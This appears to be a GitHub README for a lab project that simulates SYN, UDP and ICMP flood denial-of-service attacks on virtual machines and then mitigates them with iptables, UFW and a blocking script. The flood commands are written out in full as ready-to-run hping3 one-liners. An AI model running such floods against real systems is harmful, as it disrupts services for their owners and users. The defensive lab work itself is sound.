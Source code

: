 # Denial-of-Service (DoS) Attack Simulation

## Overview
This project demonstrates a **Denial-of-Service (DoS) attack simulation** in a controlled environment using Virtual Machines (VMs). The simulation includes **SYN Flood, UDP Flood, and ICMP Flood attacks** on a target VM while implementing firewall-based mitigation strategies.

⚠ **Disclaimer:** This project is for **educational and research purposes only**. Do not use these techniques on unauthorized systems. Unauthorized use may result in legal consequences.

![DoS Attack Diagram](https://upload.wikimedia.org/wikipedia/commons/1/19/Denial_of_service_attack.svg)

---

## Setting Up the Environment
### **1. Virtual Machine Configuration**
- **Run 3 VMs** simultaneously:
  - **2 Attacker VMs** (Kali Linux or Ubuntu with `hping3` installed)
  - **1 Victim VM** (Ubuntu or any Linux-based OS)
- Configure network settings to allow communication between VMs.
- Install necessary tools on each VM:
  ```bash
  sudo apt update && sudo apt install hping3 ufw iptables wireshark -y
  ```

### **2. Checking Network Connectivity**
Run the following command from an attacker VM to verify connectivity with the target VM:
```bash
ping <target-ip>
```

---

## Attack Simulations
### **1. SYN Flood Attack**
```bash
sudo hping3 -S --flood -p 80 <target-ip>
```
- `-S` → Sends SYN packets.
- `--flood` → Sends packets continuously.
- `-p 80` → Targets port 80 (HTTP service).

### **2. UDP Flood Attack**
```bash
sudo hping3 --udp --flood -p 53 <target-ip>
```
- `--udp` → Sends UDP packets.
- `--flood` → Sends packets continuously.
- `-p 53` → Targets port 53 (DNS service).

### **3. ICMP (Ping) Flood Attack**
```bash
sudo hping3 --icmp --flood <target-ip>
```
- `--icmp` → Sends ICMP Echo Request packets.
- `--flood` → Sends packets continuously.

---

## Observing Attack Effects with Wireshark
Wireshark can be used to analyze the attack's impact:
1. **SYN Flood Attack:**
   - Multiple SYN packets sent to the target VM.
   - Increased CPU and memory usage.
   - Many connections stuck in `SYN_RECV` state.
2. **UDP Flood Attack:**
   - High volume of UDP packets observed.
   - Increased bandwidth consumption.
   - Empty UDP packets flooding the network.
3. **ICMP Flood Attack:**
   - Large number of ping requests from attacker.
   - High network latency and packet congestion.

---

## Mitigation Techniques
### **1. Using UFW Firewall**
```bash
sudo ufw deny from <attacker-ip>
sudo ufw enable
sudo ufw status
```
- Blocks all incoming traffic from the attacker's IP.
- Ensures firewall protection is active.

### **2. Using iptables Firewall**
```bash
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 5 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
sudo iptables -A INPUT -p udp -m limit --limit 10/s --limit-burst 20 -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
sudo iptables-save > /etc/iptables.rules
```
- Rate limits SYN, UDP, and ICMP floods.
- Drops excessive attack packets to prevent system overload.

---

## Automating Mitigation
Save the following **Bash script** as `block_attacks.sh`:
```bash
#!/bin/bash

echo "[+] Applying Firewall Rules to Prevent DoS Attacks..."

# Flush existing rules
sudo iptables -F

# Prevent SYN Flood (TCP)
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 5 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP

# Prevent UDP Flood
sudo iptables -A INPUT -p udp -m limit --limit 10/s --limit-burst 20 -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP

# Prevent ICMP Flood (Ping)
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP

# Save rules
sudo iptables-save > /etc/iptables.rules

echo "[+] Firewall rules applied successfully!"
```
To execute the script:
```bash
chmod +x block_attacks.sh
sudo ./block_attacks.sh
```

To make the rules persistent after a reboot, install the persistence package:
```bash
sudo apt install iptables-persistent
sudo systemctl enable netfilter-persistent
```

---

## **Results: Before & After Mitigation**
| Attack Type | Before Mitigation | After Mitigation |
|------------|------------------|-----------------|
| SYN Flood | High CPU Usage, Many SYN_RECV States | Limited Connections, No Overload |
| UDP Flood | High Bandwidth Consumption | Rate-Limited Traffic |
| ICMP Flood | Increased Latency | Reduced ICMP Requests |

---

## **Additional Security Measures**
- **Install Fail2Ban** to detect and block malicious IPs:
  ```bash
  sudo apt install fail2ban -y
  sudo systemctl start fail2ban
  sudo systemctl enable fail2ban
  ```
- **Use Cloud-Based DDoS Protection** (e.g., Cloudflare, AWS Shield, etc.).
- **Implement an Intrusion Detection System (IDS)** such as **Snort or Suricata**.

---

## **Conclusion**
This project demonstrates the impact of **DoS attacks** and how to mitigate them using **firewall rules and automation scripts**. Implementing **IDS, IP tracking, and cloud security solutions** further enhances protection against network attacks.

---

## **References**
- [hping3 Documentation](http://www.hping.org/)
- [Wireshark Network Analysis](https://www.wireshark.org/)
- [Linux iptables Firewall](https://linux.die.net/man/8/iptables)
- [UFW Firewall Guide](https://help.ubuntu.com/community/UFW)

